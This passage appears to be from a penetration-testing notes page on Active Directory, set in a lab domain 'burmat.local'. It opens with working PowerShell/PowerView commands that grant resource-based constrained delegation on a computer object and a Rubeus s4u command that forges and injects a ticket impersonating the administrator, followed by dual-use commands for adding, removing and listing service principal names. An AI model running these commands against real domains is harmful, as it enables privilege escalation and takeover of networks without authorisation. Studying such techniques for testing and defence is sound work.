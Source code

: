 {% code overflow="wrap" %}
```powershell
## we can write our delegation attribute to the DC with the following:
$UserSid = Get-DomainUser svc_burmat -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($UserSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer websrv.burmat.local | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

## use rubeus to forge tickets as administrator accounts
rubeus.exe s4u /user:svc_burmat /ticket:doIFFDCCBRCg..SNIP.. /impersonateuser:administrator /msdsspn:cifs/websvr.burmat.local /ptt
```
{% endcode %}

### Setting an SPN

#### With `setspn.exe`:

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>setspn -s MSSQLSvc/USER-PC01.burmat.local burmat.local\svc-mssql 
</strong>setspn -L burmat.local\svc-mssql
# remove with:
setspn -d MSSQLSvc/USER-PC01.burmat.local burmat.local\svc-mssql
</code></pre>

#### With the PowerShell `ActiveDirectory` module:

{% code overflow="wrap" %}
```powershell
Set-ADUser -Identity svc-mssql -ServicePrincipalNames @{Add='MSSQLSvc/USER-PC01.burmat.local','host/USER-PC01.burmat.local'}
# clear them out with
Set-ADUser -Identity svc-mssql -ServicePrincipalNames $Null
```
{% endcode %}

### Listing SPNs

#### Using `ldifde`

{% code overflow="wrap" %}
```powershell
ldifde -d "DC=burmat,DC=local" -l ServicePrincipalName -F C:\SPNs.txt
```
{% endcode %}

#### Using the PowerShell Module `ActiveDirectory`

{% code overflow="wrap" %}
```powershell
Get-ADComputer -Filter * -Properties ServicePrincipalNames | Select-Object -ExpandProperty ServicePrincipalNames

Get-ADUser -Filter * -Properties ServicePrincipalNames | Select-Object -ExpandProperty ServicePrincipalNames
```
{% endcode %}
